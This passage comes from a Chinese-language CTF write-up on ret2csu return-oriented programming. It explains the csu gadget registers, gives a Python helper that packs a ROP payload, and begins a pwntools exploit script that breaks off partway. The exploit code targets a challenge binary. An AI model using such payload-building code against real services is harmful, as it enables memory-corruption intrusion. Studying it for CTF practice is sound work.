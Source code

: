 首先回到ret2csu上面,根据程序指令我们可以确定csu函数如下结构

结合syscall的指令,后面的gadget用了`retn`

[![](https://p2.ssl.qhimg.com/t010c7b78d71fb876e1.png)](https://p2.ssl.qhimg.com/t010c7b78d71fb876e1.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0140b24ad59c13bcb4.png)

这里我们就不需要填充到0x38,然后继续向下执行了,直接拼接在后面即可。

```
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    return payload
```

完整的EXP如下:

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
# from libformatstr import *

debug = True
# 设置调试环境
context(log_level = 'debug', arch = 'amd64', os = 'linux')
context.terminal = ['/usr/bin/tmux', 'splitw', '-h']

if debug:
    sh = process("./pwn")
    elf=ELF('./pwn')
else:
    link = "x.x.x.x:xx"
    ip, port = map(lambda x:x.strip(), link.split(':'))
    sh = remote(ip, port)
    elf = ELF('./quantum_entanglement')

se = lambda x:sh.send(x)
sl = lambda x: sh.sendline(x)
rc = lambda: sh.recv(timeout=0.5)
ru = lambda x:sh.recvuntil(x, drop=True)
rn = lambda x:sh.recv(x)
un64 = lambda x: u64(x.ljust(8, 'x00'))
un32 = lambda x: u32(x.ljust(3, 'x00'))



def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
```